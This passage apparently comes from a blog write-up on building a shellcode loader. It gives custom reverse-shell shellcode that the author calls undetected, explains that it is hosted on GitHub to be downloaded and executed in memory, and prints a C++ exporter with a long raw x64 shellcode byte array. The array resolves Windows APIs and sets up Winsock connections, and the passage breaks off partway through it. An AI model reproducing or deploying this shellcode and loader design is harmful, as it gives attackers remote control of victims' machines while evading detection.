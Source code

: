 ```cpp
}
```

Also here is the code I used to export my shellcode to a file to be loaded by our shellcode loader.  Yeah I know, the shellcode is impossibly large and should be much smaller.  😸  It's my own custom reverse shell shellcode, so no msfvenom was used.  I didn't put too much effort into reducing the amount of total bytes, I really just focused on shellcode that was reliable and undetected out of the gate.  I took the exported file, c:\\users\\robbi\\reg.dyno, and uploaded it to one of my github repos.  That is the file we download, which contains our shellcode, and gets executed in memory.

```cpp
#include <fstream>
#include <vector>
#include <cstdint>

int main() {
    // Replace ... with your full byte array
    std::vector<uint8_t> shellcode = {
0x48,0x83,0xec,0x28,0x48,0x83,0xe4,0xf0,0x48,0x31,0xc9,0x65,0x48,0x8b,0x41,0x60,0x48,0x8b,0x40,0x18,0x48,0x8b,0x70,0x10,0x48,0x8b,
0x36,0x48,0x8b,0x36,0x48,0x8b,0x5e,0x30,0x49,0x89,0xd8,0x8b,0x5b,0x3c,0x4c,0x01,0xc3,0x48,0x31,0xc9,0x66,0x81,0xc1,0xff,0x88,0x48,
0xc1,0xe9,0x08,0x8b,0x14,0x0b,0x4c,0x01,0xc2,0x44,0x8b,0x52,0x14,0x4d,0x31,0xdb,0x44,0x8b,0x5a,0x20,0x4d,0x01,0xc3,0x4c,0x89,0xd1,
0x48,0xb8,0x64,0x64,0x72,0x65,0x73,0x73,0x90,0x90,0x48,0xc1,0xe0,0x10,0x48,0xc1,0xe8,0x10,0x50,0x48,0xb8,0x47,0x65,0x74,0x50,0x72,
0x6f,0x63,0x41,0x50,0x48,0x89,0xe0,0x67,0xe3,0x20,0x31,0xdb,0x41,0x8b,0x1c,0x8b,0x4c,0x01,0xc3,0x48,0xff,0xc9,0x4c,0x8b,0x08,0x4c,
0x39,0x0b,0x75,0xe9,0x44,0x8b,0x48,0x08,0x44,0x39,0x4b,0x08,0x74,0x03,0x75,0xdd,0xcc,0x51,0x41,0x5f,0x49,0xff,0xc7,0x4d,0x31,0xdb,
0x44,0x8b,0x5a,0x1c,0x4d,0x01,0xc3,0x43,0x8b,0x04,0xbb,0x4c,0x01,0xc0,0x50,0x41,0x5f,0x4d,0x89,0xfc,0x4c,0x89,0xc7,0x4c,0x89,0xc1,
0xb8,0x61,0x72,0x79,0x41,0x50,0x48,0xb8,0x4c,0x6f,0x61,0x64,0x4c,0x69,0x62,0x72,0x50,0x48,0x89,0xe2,0x48,0x83,0xec,0x30,0x41,0xff,
0xd7,0x48,0x83,0xc4,0x30,0x49,0x89,0xc7,0x4d,0x89,0xe1,0x48,0x89,0xf9,0xb8,0x65,0x73,0x73,0x90,0xc1,0xe0,0x08,0xc1,0xe8,0x08,0x50,
0x48,0xb8,0x45,0x78,0x69,0x74,0x50,0x72,0x6f,0x63,0x50,0x48,0x89,0xe2,0x48,0x83,0xec,0x30,0x41,0xff,0xd1,0x48,0x83,0xc4,0x30,0x48,
0x89,0xc3,0x4d,0x89,0xe1,0x48,0x89,0xf9,0x48,0xb8,0x6f,0x63,0x65,0x73,0x73,0x41,0x90,0x90,0x48,0xc1,0xe0,0x10,0x48,0xc1,0xe8,0x10,
0x50,0x48,0xb8,0x43,0x72,0x65,0x61,0x74,0x65,0x50,0x72,0x50,0x48,0x89,0xe2,0x48,0x83,0xec,0x30,0x41,0xff,0xd1,0x48,0x83,0xc4,0x30,
0x49,0x89,0xc5,0xb8,0x6c,0x6c,0x90,0x90,0xc1,0xe0,0x10,0xc1,0xe8,0x10,0x50,0x48,0xb8,0x77,0x73,0x32,0x5f,0x33,0x32,0x2e,0x64,0x50,
0x48,0x89,0xe1,0x48,0x83,0xec,0x30,0x41,0xff,0xd7,0x49,0x89,0xc6,0x4c,0x89,0xf1,0xb8,0x75,0x70,0x90,0x90,0xc1,0xe0,0x10,0xc1,0xe8,
0x10,0x50,0x48,0xb8,0x57,0x53,0x41,0x53,0x74,0x61,0x72,0x74,0x50,0x48,0x89,0xe2,0x48,0x83,0xec,0x30,0x41,0xff,0xd4,0x49,0x89,0xc7,
0x4c,0x89,0xf1,0xb8,0x74,0x41,0x90,0x90,0xc1,0xe0,0x10,0xc1,0xe8,0x10,0x50,0x48,0xb8,0x57,0x53,0x41,0x53,0x6f,0x63,0x6b,0x65,0x50,
0x48,0x89,0xe2,0x48,0x83,0xec,0x30,0x41,0xff,0xd4,0x48,0x89,0xc6,0x4c,0x89,0xf1,0xb8,0x63,0x74,0x90,0x90,0xc1,0xe0,0x10,0xc1,0xe8,
0x10,0x50,0x48,0xb8,0x57,0x53,0x41,0x43,0x6f,0x6e,0x6e,0x65,0x50,0x48,0x89,0xe2,0x48,0x83,0xec,0x30,0x41,0xff,0xd4,0x48,0x89,0xc7,
0x4d,0x89,0xee,0x48,0x31,0xc9,0x66,0xb9,0x98,0x01,0x48,0x29,0xcc,0x48,0x8d,0x14,0x24,0x66,0xb9,0x02,0x02,0x48,0x83,0xec,0x28,0x41,
0xff,0xd7,0x48,0x83,0xc4,0x30,0x48,0x31,0xc9,0xb1,0x02,0x48,0x31,0xd2,0xb2,0x01,0x4d,0x31,0xc0,0x41,0xb0,0x06,0x4d,0x31,0xc9,0x4c,
0x89,0x4c,0x24,0x20,0x4c,0x89,0x4c,0x24,0x28,0xff,0xd6,0x49,0x89,0xc4,0x48,0x83,0xc4,0x30,0x49,0x89,0xc5,0x4c,0x89,0xe9,0x48,0x31,
0xc0,0x48,0xff,0xc0,0x48,0xff,0xc0,0x48,0x89,0x04,0x24,0x66,0xb8,0x23,0x29,0x66,0x89,0x44,0x24,0x02,0x48,0xc7,0xc0,0x80,0xff,0xff,
0xfe,0x48,0xf7,0xd0,0x48,0x89,0x44,0x24,0x04,0x48,0x8d,0x14,0x24,0x41,0xb0,0x16,0x4d,0x31,0xc9,0x41,0x51,0x41,0x51,0x41,0x51,0x48,
```